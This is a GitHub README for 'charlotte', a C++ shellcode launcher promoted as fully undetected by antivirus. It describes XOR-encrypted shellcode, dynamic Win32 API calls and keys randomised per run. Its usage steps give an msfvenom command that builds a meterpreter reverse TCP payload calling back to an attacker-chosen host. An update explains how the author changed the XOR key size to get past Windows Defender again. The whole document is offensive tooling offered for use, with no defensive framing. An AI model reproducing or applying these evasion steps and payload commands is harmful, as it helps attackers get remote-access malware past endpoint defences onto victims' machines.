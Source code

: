 # charlotte
 c++ fully undetected shellcode launcher ;)

 releasing this to celebrate the birth of my newborn 

## description
1. c++ shellcode launcher, fully undetected 0/26 as of 13th May 2021.
2. dynamic invoking of win32 api functions
3. XOR encryption of shellcode and function names
4. randomised XOR keys and variables per run
5. on Kali Linux, simply 'apt-get install mingw-w64*' and thats it!


## antiscan.me

![alt_text](0-detection-charlotte.png "Pwn!")

## usage

git clone the repository, generate your shellcode file with the naming beacon.bin, and run charlotte.py

example:
1. git clone https://github.com/9emin1/charlotte.git && apt-get install mingw-w64*
2. cd charlotte
3. msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$YOUR_IP LPORT=$YOUR_PORT -f raw > beacon.bin
4. python charlotte.py
5. profit

### tested with msfvenom -p (shown in the .gif POC below) and also cobalt strike raw format payload

![alt_text](demo-poc.gif "Pwn!")

## update v1.1 

17/05/21:

apparently Microsoft Windows Defender was able to detect the .DLL binary,
and how did they flag it? by looking for several XOR keys of 16 byte size 
changing it to 9 shown in the POC .gif below shows it is now undetected again
cheers!

![alt_text](demo-poc2.gif) "Pwn!")